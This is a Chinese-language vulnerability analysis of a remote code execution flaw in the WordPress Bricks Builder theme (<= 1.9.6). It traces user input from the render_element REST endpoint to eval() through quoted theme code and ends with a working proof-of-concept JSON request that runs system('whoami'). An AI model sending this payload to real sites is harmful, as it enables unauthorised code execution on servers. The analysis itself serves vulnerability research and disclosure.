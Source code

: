 ## 影响范围
WordPress Bricks Builder <= 1.9.6

## 漏洞分析
`wp-content/themes/bricks/includes/query.php`

明显看到`$php_query_raw`传入了eval()函数，参数取自于`bricks_render_dynamic_data( $query_vars['queryEditor'], $post_id );`
```PHP
	$query_vars = $settings['query'] ?? [];
...
/**  
 * Use PHP editor * * Returns PHP array with query arguments * * Supported if 'objectType' is 'post', 'term' or 'user'. * No merge query. * * @since 1.9.1  
 */if ( isset( $query_vars['useQueryEditor'] ) && ! empty( $query_vars['queryEditor'] ) && in_array( $object_type, [ 'post','term','user' ] ) ) {  
    $post_id                      = Database::$page_data['preview_or_post_id'];  
    $php_query_raw                = bricks_render_dynamic_data( $query_vars['queryEditor'], $post_id );  
    $query_vars['posts_per_page'] = get_option( 'posts_per_page' );  
  
    // Define an anonymous function that simulates the scope for user code  
    $execute_user_code = function () use ( $php_query_raw ) {  
       $user_result = null; // Initialize a variable to capture the result of user code  
  
       // Capture user code output using output buffering       ob_start();  
       $user_result = eval( $php_query_raw ); // Execute the user code  
       ob_get_clean(); // Get the captured output  
  
       return $user_result; // Return the user code result  
    };  
  
    ob_start();
```

跟入`bricks_render_dynamic_data`，函数仅做过滤用

```PHP
//wp-content/themes/bricks/functions.php
function bricks_render_dynamic_data( $content, $post_id = 0, $context = 'text' ) {  
    return \Bricks\Integrations\Dynamic_Data\Providers::render_content( $content, $post_id, $context );  
}
//wp-content/themes/bricks/includes/integrations/dynamic-data/providers.php
public static function render_content( $content, $post_id = 0, $context = 'text' ) {  
    // Return: Content is a flat array (Example: 'user_role' element conditions @since 1.5.6)  
    if ( is_array( $content ) && isset( $content[0] ) ) {  
       return $content;  
    }  
  
    // Support for dynamic data picker and input text (@since 1.5)  
    $content = ! empty( $content['name'] ) ? $content['name'] : (string) $content;  
  
    // Return: $content doesn't contain opening DD tag character '{' (@since 1.5)  
    if ( strpos( $content, '{' ) === false ) {  
       return $content;  
    }  
  
    // Strip slashes for DD "echo" function to allow DD preview render in builder (@since 1.5.3)  
    if ( strpos( $content, '{echo:' ) !== false ) {  
       $content = stripslashes( $content );  
    }  
  
    $post_id = empty( $post_id ) ? get_the_ID() : $post_id;  
    $post    = get_post( $post_id );  
  
    /**  
     * Set the correct post when previewing     *     * TODO NOTE: Not in use as it causes issues with the preview of elements in the builder  
     * that return query results not generated through the query builder.  
     * Examples: Posts, Products, Related posts elements     *     * @since 1.9.5  
     */    // if (  
    // \Bricks\Helpers::is_bricks_preview() &&    // ! \Bricks\Query::is_looping() &&    // isset( \Bricks\Database::$page_data['preview_or_post_id'] )    // ) {    // $post = get_post( \Bricks\Database::$page_data['preview_or_post_id'] );    // }  
    return apply_filters( 'bricks/dynamic_data/render_content', $content, $post, $context );  
}
```

`prepare_query_vars_from_settings`的调用就在Query类的`__construct`中，从代码中明显看出只要`$element`中id为空即可进入else触发`prepare_query_vars_from_settings`

![](attachments/Pasted%20image%2020241020105213.png)

```PHP
public static function get_query_by_element_id( $element_id = '', $is_dynamic_data = false ) {  
    if ( empty( $element_id ) ) {  
       return false;  
    }  
  
    $query           = false;  
    $history_queries = self::$query_history;  
  
    // Check if any query history element_id matches the given element_id  
    if ( ! empty( $history_queries ) ) {  
       $query_history_id = self::generate_query_history_id( $element_id );  
  
       if ( isset( $history_queries[ $query_history_id ] ) ) {  
          $query = $history_queries[ $query_history_id ];  
       }  
  
       // If using in dynamic data, and no query history found, maybe user wants to get query history based on $element_id  
       if ( ! $query && $is_dynamic_data && self::is_looping() ) {  
          if ( isset( $history_queries[ $element_id ] ) ) {  
             $query = $history_queries[ $element_id ];  
          }  
       }  
    }  
  
    return $query;  
}
```
`wp-content/themes/bricks/includes/ajax.php#render_element`将Query类实例化

但是在第一个实例化的位置`$loop_element`为false无法进入，但是在下面`$element`可控，可以通过`$element_class_name`实例化指定类

```PHP
if ( ! empty( $loop_element ) ) {  
    $query = new Query( $loop_element );  
  
    if ( ! empty( $query->count ) ) {  
       $query->is_looping = true;  
  
       // NOTE: Use array_shift because not all the results are sequential arrays (e.g. JetEngine)  
       $query->loop_object = $query->object_type == 'post' ? $query->query_result->posts[0] : array_shift( $query->query_result );  
    }  
}
...
// Init element class (i.e. new Bricks\Element_Alert( $element ))  
$element_name       = ! empty( $element['name'] ) ? $element['name'] : '';  
$element_class_name = isset( Elements::$elements[ $element_name ]['class'] ) ? Elements::$elements[ $element_name ]['class'] : false;
if ( class_exists( $element_class_name ) ) {  
    $element['is_frontend'] = false;  
  
    $element_instance = new $element_class_name( $element );  
    $element_instance->load();  
  
    // Init element: enqueue styles/scripts, render element  
    ob_start();  
    $element_instance->init();  
    $response = ob_get_clean();  
    // NOTE: stripslashes no longer in use (@since 1.8.5) as they caused unicode characters to be escaped (e.g. \u00a0) (#862jxcrde; #862jxw1w7)  
    // $response = stripslashes( $response );}
```

`wp-content/themes/bricks/includes/elements.php`中指名了可以实例化的类有

![](attachments/Pasted%20image%2020241020112523.png)

查找白名单类中对Query类的调用

![](attachments/Pasted%20image%2020241020123253.png)

在`wp-content/themes/bricks/includes/elements/container.php#Element_Container`有rander函数实例化Query

![](attachments/Pasted%20image%2020241020123559.png)

在其继承的父类`wp-content/themes/bricks/includes/elements/base.php`中init函数调用render函数

![](attachments/Pasted%20image%2020241020124020.png)
`__construct`为element赋值

```PHP
public function __construct( $element = null ) {  
    $this->element           = $element;  
    $this->label             = $this->get_label();  
    $this->keywords          = $this->get_keywords();  
    $this->is_frontend       = isset( $element['is_frontend'] ) ? $element['is_frontend'] : bricks_is_frontend();  
    $this->id                = ! empty( $element['id'] ) ? $element['id'] : Helpers::generate_random_id( false );  
    $this->settings          = ! empty( $element['settings'] ) ? $element['settings'] : [];  
    $this->nestable_item     = $this->get_nestable_item();  
    $this->nestable_children = $this->get_nestable_children();  
    $this->nestable_hide     = Capabilities::current_user_has_full_access() === false;  
  
    // To distinguish non-layout nestables (slider-nested, etc.) in Vue render  
    if ( $this->nestable && ! $this->is_layout_element() ) {  
       $this->nestable_html = true;  
    }  
  
    // Element-specific theme style settings  
    if ( ! empty( $element['themeStyles'] ) ) {  
       $this->theme_styles = $element['themeStyles'];  
    } elseif ( ! empty( Theme_Styles::$active_settings[ $this->name ] ) ) {  
       $this->theme_styles = Theme_Styles::$active_settings[ $this->name ];  
    }  
  
    $this->tag = $this->get_tag();  
}
```

`init()`函数中对render的调用

![](attachments/Pasted%20image%2020241020125113.png)


在这里返回先前ajax.php中，在此时将`$element['name']`设置为container后自然会按照上面的调用去实例化到`Element_Container`类

![](attachments/Pasted%20image%2020241020125019.png)

那么在下面调用init()最后实例化Query也就完成RCE的过程

## POC
```JSON
//POC
POST /wp-json/bricks/v1/render_element
Content-Type: application/json
{
"postId":"1",
"nonce":"3d6020fb9a",
"element":{
    "name":"container",
    "settings":{
        "hasLoop":"true",
        "query":{
            "useQueryEditor":true,
            "queryEditor":"system('whoami');throw new Exception();", //throw new Exception()是为了抛错回显
            "objectType":"post"
        }
    }
}
}
```